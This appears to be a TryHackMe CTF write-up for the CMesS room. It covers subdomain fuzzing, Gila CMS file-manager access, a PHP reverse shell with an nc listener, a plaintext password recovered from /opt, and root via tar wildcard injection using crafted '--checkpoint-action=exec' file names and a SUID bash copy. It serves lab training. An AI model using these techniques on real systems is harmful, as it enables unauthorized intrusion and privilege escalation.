



[TryHackMe - CMesS](https://tryhackme.com/room/cmess) is a medium rated room. Though it is not that difficult but definitely helped me to a few more steps while performing a pentest. 

So, let's begin!

# Initial Enumeration
The first that we need to do after starting the machine is to add the IP address to `/etc/hosts`.

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/cmess]
└─$ sudo nano /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.10.141.169   cmess.thm
10.10.141.169   dev.cmess.thm
```

We can now start an `nmap` scan to check all the open ports, services and other details, and meanwhile we check if there is something is on port 80 as this is related a CMS.

Now, because we have added an entry in the `/etc/hosts` file, we can directly access the webpage at `cmess.thm` which would land on a page like this:



Just by a single glance we can say that the server is running a **Gila CMS** which also appears to be pretty old because of the *copyright 2017* in the footer. So, we can look for relevant exploits using `searchsploit`:

```bash
┌──(kali㉿kali)-[~/tools]
└─$ searchsploit gila cms
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Gila CMS 1.11.8 - 'query' SQL Injection                                             | php/webapps/48590.py
Gila CMS 1.9.1 - Cross-Site Scripting                                               | php/webapps/46557.txt
Gila CMS 2.0.0 - Remote Code Execution (Unauthenticated)                            | php/webapps/49412.py
Gila CMS < 1.11.1 - Local File Inclusion                                            | multiple/webapps/47407.txt
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

```

There are multiple exploits available here but for some of them we need to be logged in first and some of the others don't work properly *(I tried each one of them but none worked)*. So, we need to look for some other option. 

We have a website in front of us, so we can try directory traversal using `ffuf`:

```bash
┌──(kali㉿kali)-[~/tools]
└─$ ffuf -u http://cmess.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt                                         1 ⨯

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://cmess.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

                        [Status: 200, Size: 3865, Words: 522, Lines: 108]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 274, Words: 20, Lines: 10]
0                       [Status: 200, Size: 3851, Words: 522, Lines: 108]
1                       [Status: 200, Size: 4078, Words: 431, Lines: 103]
1x1                     [Status: 200, Size: 4078, Words: 431, Lines: 103]
01                      [Status: 200, Size: 4078, Words: 431, Lines: 103]
about                   [Status: 200, Size: 3353, Words: 372, Lines: 93]
About                   [Status: 200, Size: 3339, Words: 372, Lines: 93]
admin                   [Status: 200, Size: 1580, Words: 377, Lines: 42]
api                     [Status: 200, Size: 0, Words: 1, Lines: 1]
assets                  [Status: 301, Size: 318, Words: 20, Lines: 10]
author                  [Status: 200, Size: 3590, Words: 419, Lines: 102]
blog                    [Status: 200, Size: 3851, Words: 522, Lines: 108]
category                [Status: 200, Size: 3862, Words: 522, Lines: 110]
feed                    [Status: 200, Size: 735, Words: 37, Lines: 22]
fm                      [Status: 200, Size: 0, Words: 1, Lines: 1]
index                   [Status: 200, Size: 3851, Words: 522, Lines: 108]
Index                   [Status: 200, Size: 3851, Words: 522, Lines: 108]
lib                     [Status: 301, Size: 312, Words: 20, Lines: 10]
log                     [Status: 301, Size: 312, Words: 20, Lines: 10]
login                   [Status: 200, Size: 1580, Words: 377, Lines: 42]
robots.txt              [Status: 200, Size: 65, Words: 5, Lines: 5]
search                  [Status: 200, Size: 3851, Words: 522, Lines: 108]
Search                  [Status: 200, Size: 3851, Words: 522, Lines: 108]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10]
sites                   [Status: 301, Size: 316, Words: 20, Lines: 10]
src                     [Status: 301, Size: 312, Words: 20, Lines: 10]
tags                    [Status: 200, Size: 3139, Words: 337, Lines: 85]
tag                     [Status: 200, Size: 3874, Words: 523, Lines: 110]
themes                  [Status: 301, Size: 318, Words: 20, Lines: 10]
tmp                     [Status: 301, Size: 312, Words: 20, Lines: 10]
:: Progress: [4614/4614] :: Job [1/1] :: 65 req/sec :: Duration: [0:01:20] :: Errors: 1 ::
```

It can be seen that a number of pages are detected and we can explore each on of them. But none of the pages contain any useful information, even the pages mentioned in `robots.txt` are not accessible.

At this point it almost feels like hitting a wall. So, we can try to recall all that we know

1. We had to specifically add the IP to `/etc/hosts`
2. We are running a CMS which appears to be old but can't find any useful exploits.
3. Appears like there are no pages that contain any useful information.

One thing that is important to note here is that if we are asked to add an entry to `/etc/hosts`, then there are high chances that there might be a hidden subdomain because subdomains can't be found directly through IP address. So, we can perform subdomain enumeration to see if there are any subdomains present. Again, we can use `ffuf` for performing this task:

```bash
┌──(kali㉿kali)-[~/tools]
└─$ ffuf -u http://cmess.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.cmess.thm" -fw 522

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://cmess.thm
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.cmess.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 522
________________________________________________

xxx                     [Status: 200, Size: 934, Words: 191, Lines: 31]

```

>  Here, I've added `-fw` to filter out those results that were not useful as all of them were having word count of 522.

So, we've found a subdomain. We can immediately go and check if there is some useful information over there.


Here, we get username and password for one of the account. Also, during the directory traversal attack we had found a login page. So, we can use these credential and try to login over there.



Now, we know the exact version of the CMS, so we can start looking for exploits for the same.

```bash
┌──(kali㉿kali)-[~/tools]
└─$ searchsploit gila 1.10
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Gila CMS < 1.11.1 - Local File Inclusion                                            | multiple/webapps/47407.txt

```

It appears that this version is vulnerable to local file inclusion. But turns out that the path mentioned in the exploit is for Windows and we are not sure if our target is running on Windows or Linux. 

Meanwhile, the `nmap` scan also completes so we can gain some information from there as well:

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/cmess]
└─$ sudo nmap -p- -T4 -sS 10.10.141.169 | tee ports_open                                                 
Host is up (0.15s latency).
Not shown: 65530 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http

Nmap done: 1 IP address (1 host up) scanned in 1070.56 seconds

┌──(kali㉿kali)-[~/Desktop/oscp/cmess]
└─$ sudo nmap -sV -sC -A -O -T4 -p20,80 10.10.141.169 | tee service_scan
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-23 07:19 EDT
Nmap scan report for cmess.thm (10.10.141.169)
Host is up (0.15s latency).

PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
80/tcp open   http     Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=4/23%OT=80%CT=20%CU=42222%PV=Y%DS=2%DC=T%G=Y%TM=6082AD
OS:46%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)OP
OS:S(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST
OS:11NW6%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)EC
OS:N(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops

TRACEROUTE (using port 20/tcp)
HOP RTT       ADDRESS
1   145.99 ms 10.8.0.1
2   148.34 ms cmess.thm (10.10.141.169)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.41 seconds
```

# Gaining Foothold

Here, from the information for port 80 we can conclude that the system is running on Linux. So, we can try to access `/etc/passwd` via LFI and modifying the exploit URI as: `http://cmess.thm/admin/fm/?f=src../../../../../../../../../etc/passwd`. After entering this we land on the file manager page of the CMS.



Over here, we can see an option for uploading files. So, we can upload a "php reverse shell" over here and then try to connect with the machine. We can use the [php reverse shell by PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and modify the `$IP` and `$PORT` values before uploading it.

After uploading the file, it gets saved in the `assets` directory. So, we can access it at: `http://cmess.thm/assets/rev.php`. Make sure to start a listener before visiting the `.php` file to catch the reverse shell connection. 

```bash
                                                                                                                    
┌──(kali㉿kali)-[~/Desktop/oscp/cmess]
└─$ nc -nvlp 1234                                                  
listening on [any] 1234 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.141.169] 43294
Linux cmess 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 04:27:38 up  1:36,  0 users,  load average: 0.00, 0.00, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

This is a `dumb` shell, so we can upgrade it as:

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
www-data@cmess:/$ 
```

Now, that we have a shell we can try to find the user flag.

First, we can check a few basic things about the machine:

```bash
www-data@cmess:/$ whoami
whoami
www-data
www-data@cmess:/$ pwd
pwd
/
www-data@cmess:/$ uname -a
uname -a
Linux cmess 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
www-data@cmess:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
andre:x:1000:1000:andre,,,:/home/andre:/bin/bash
mysql:x:108:117:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
www-data@cmess:/$ cd /home
cd /home
www-data@cmess:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root  root  4096 Feb  6  2020 .
drwxr-xr-x 22 root  root  4096 Feb  6  2020 ..
drwxr-x---  4 andre andre 4096 Feb  9  2020 andre
www-data@cmess:/home$ cd andre
cd andre
bash: cd: andre: Permission denied
```

# Privilege Escalation

## Horizontal

From these details, we can see that currently we are logged in as `www-data` and there is another user named `andre` on the system as well. Now, initially we logged into the CMS as `andre` only so, we can check if the password has been reused over here by trying to switch to `andre`' account.

```bash
www-data@cmess:/home$ su andre
su andre
Password: *************

su: Authentication failure
```

But that is not the case over here. So, we need to look for some other method. We can check the output of `sudo -l` to see what `sudo` privileges `www-data` has:

```bash
www-data@cmess:/home$ sudo -l
sudo -l
[sudo] password for www-data: 
```

But here it asks for `www-data`'s password which we don't know. So, the next thing we can look at is for binaries with SUID bit set:

```bash
www-data@cmess:/home$ find / -perm -4000 2> /dev/null
find / -perm -4000 2> /dev/null
/usr/bin/vmware-user-suid-wrapper
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ntfs-3g
/bin/fusermount
/bin/mount
/bin/ping6
/bin/su
/bin/ping
/bin/umount
```

Again, we can't find useful binary over here that can be used to escalate our privileges. The next thing we can look for are files with keywords like "password" or "andre" in their name and if we have read permission to them.

```bash
www-data@cmess:/opt$ find / -name "*password*" -perm -u+r 2> /dev/null
find / -name "*password*" -perm -u+r 2> /dev/null
/usr/share/pam/common-password.md5sums
/usr/share/pam/common-password
/usr/share/man/man1/systemd-tty-ask-password-agent.1.gz
/usr/share/man/man1/systemd-ask-password.1.gz
/usr/share/man/man8/systemd-ask-password-console.service.8.gz
/usr/share/man/man8/systemd-ask-password-console.path.8.gz
/usr/share/man/man8/systemd-ask-password-wall.service.8.gz
/usr/share/man/man8/systemd-ask-password-wall.path.8.gz
/usr/share/help-langpack/en_AU/ubuntu-help/user-forgottenpassword.page
/usr/share/help-langpack/en_AU/ubuntu-help/user-goodpassword.page
/usr/share/help-langpack/en_AU/ubuntu-help/user-changepassword.page
/usr/share/help-langpack/en_GB/zenity/password.page
/usr/share/help-langpack/en_GB/evince/password.page
/usr/share/help-langpack/en_GB/ubuntu-help/user-forgottenpassword.page
/usr/share/help-langpack/en_GB/ubuntu-help/user-goodpassword.page
/usr/share/help-langpack/en_GB/ubuntu-help/user-changepassword.page
/usr/share/help-langpack/en_CA/ubuntu-help/user-forgottenpassword.page
/usr/share/help-langpack/en_CA/ubuntu-help/user-goodpassword.page
/usr/share/help-langpack/en_CA/ubuntu-help/user-changepassword.page
/usr/share/icons/Adwaita/scalable/status/dialog-password-symbolic.svg
/usr/share/icons/Humanity/status/24/dialog-password.png
/usr/share/icons/Humanity/status/16/dialog-password.png
/usr/share/icons/Humanity/status/48/dialog-password.svg
/usr/share/icons/Humanity/apps/24/password.png
/usr/share/icons/Humanity/apps/48/password.svg
/usr/lib/grub/i386-pc/password_pbkdf2.mod
/usr/lib/grub/i386-pc/legacy_password_test.mod
/usr/lib/grub/i386-pc/password.mod
/usr/lib/mysql/plugin/validate_password.so
/etc/pam.d/common-password
/bin/systemd-ask-password
/bin/systemd-tty-ask-password-agent
/opt/.password.bak
/run/systemd/ask-password
/var/cache/debconf/passwords.dat
/var/www/html/src/core/views/login-change-password.php
/var/lib/pam/password
/lib/systemd/systemd-reply-password
/lib/systemd/system/systemd-ask-password-plymouth.service
/lib/systemd/system/systemd-ask-password-wall.service
/lib/systemd/system/systemd-ask-password-plymouth.path
/lib/systemd/system/systemd-ask-password-console.service
/lib/systemd/system/sysinit.target.wants/systemd-ask-password-console.path
/lib/systemd/system/systemd-ask-password-console.path
/lib/systemd/system/multi-user.target.wants/systemd-ask-password-wall.path
/lib/systemd/system/systemd-ask-password-wall.path
/boot/grub/i386-pc/password_pbkdf2.mod
/boot/grub/i386-pc/legacy_password_test.mod
/boot/grub/i386-pc/password.mod
```

And here we can see an odd file `/opt/.password.bak` which has the following content:

```bash
www-data@cmess:/opt$ cat /opt/.password.bak
cat /opt/.password.bak
andres backup password
*************
```

Now that we have got the password to andre's account, we can log into his account and get the user flag.

```bash
www-data@cmess:/opt$ su andre
su andre
Password: UQfsdCB7aAP6

andre@cmess:/opt$ cd /home/andre
cd /home/andre
andre@cmess:~$ cat user.txt
```

Now, our next task is to escalate our privileges to `root`.

## Vertical

For this, we can first check the command that "andre" can run as `sudo`.

```bash
andre@cmess:~$ sudo -l
sudo -l
[sudo] password for andre: 

Sorry, user andre may not run sudo on cmess.

```

But looks like we can't run any commands as `sudo`. So, the next thing we can check are the cron jobs:

```bash
andre@cmess:~$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

Over here, we can see that there is one job that is being run every half minute which first changes directory to `/home/andre/backup` and then creates a backup of all the files present in that directory. Here we can see that a wildcard `*` is being used and we can use it to escalate our privileges.

The thing with wildcards is that we can store file with names similar to `tar` options/switches and when the wildcard gets replaced by those filenames (in order to add them to the compressed file) then they act like options/switches for `tar` instead of acting as normal filenames. We can exploit the same issue and escalate our privileges as this job is running as `root`.

Before all this we can shift to a much stable `ssh` session as we know the password for "andre's" account.

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/cmess]
└─$ ssh andre@10.10.141.169  
andre@cmess:~$ 
```


**Steps:**

1. Create a `shell.sh` file that would create a copy of `/bin/bash` and set its SUID bit. So, as the job is being run by `root` a copy of `root`'s `bash` would be created.\

   ```bash
   andre@cmess:~/backup$ nano shell.sh
   
   cp /bin/bash /tmp/myroot
   chmod +s /tmp/myroot
   ```

2. Make the `shell.sh` executable:

   ```bash
   andre@cmess:~/backup$ ls -la
   total 16
   drwxr-x--- 2 andre andre 4096 Apr 23 05:29 .
   drwxr-x--- 5 andre andre 4096 Apr 23 05:26 ..
   -rwxr-x--- 1 andre andre   51 Feb  9  2020 note
   -rwxrwxr-x 1 andre andre   46 Apr 23 05:29 shell.sh
   ```

3. Create files whose name are similar to that of `tar` options:

   ```bash
   ndre@cmess:~/backup$ touch /home/andre/backup/--checkpoint=1
   andre@cmess:~/backup$ touch /home/andre/backup/--checkpoint-action=exec=sh\ shell.sh
   andre@cmess:~/backup$ ls -la
   total 16
   drwxr-x--- 2 andre andre 4096 Apr 23 05:32 .
   drwxr-x--- 5 andre andre 4096 Apr 23 05:26 ..
   -rw-rw-r-- 1 andre andre    0 Apr 23 05:32 --checkpoint=1
   -rw-rw-r-- 1 andre andre    0 Apr 23 05:32 --checkpoint=exec=sh shell.sh
   -rwxr-x--- 1 andre andre   51 Feb  9  2020 note
   -rwxrwxr-x 1 andre andre   46 Apr 23 05:29 shell.sh
   ```

   > Keep in mind to specific the full path when creating the files else they won't get created.

   - The `--checkpoint` displays the progress message every passed value record (here passed value is 1)
   - The `--checkpoint-action` performs the specified action on each checkpoint which in our case is to execute the command `sh shell.sh`.

4. Wait for some time and then try the command:

   ```bash
   andre@cmess:~/backup$ /tmp/myroot -p
   myroot-4.3# whoami
   root
   myroot-4.3# cd /root
   myroot-4.3# cat root.txt   
   ```

**With this we have rooted the machine!**

# Some Key Points to Take Away

1. Whenever possible try to enumerate subdomains along with directories.
2. Check for files to which you have read access.

# References

1. TryHackMe - CMesS: https://tryhackme.com/room/cmess
2. PentestMonkey - PHP Reverse Shell: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php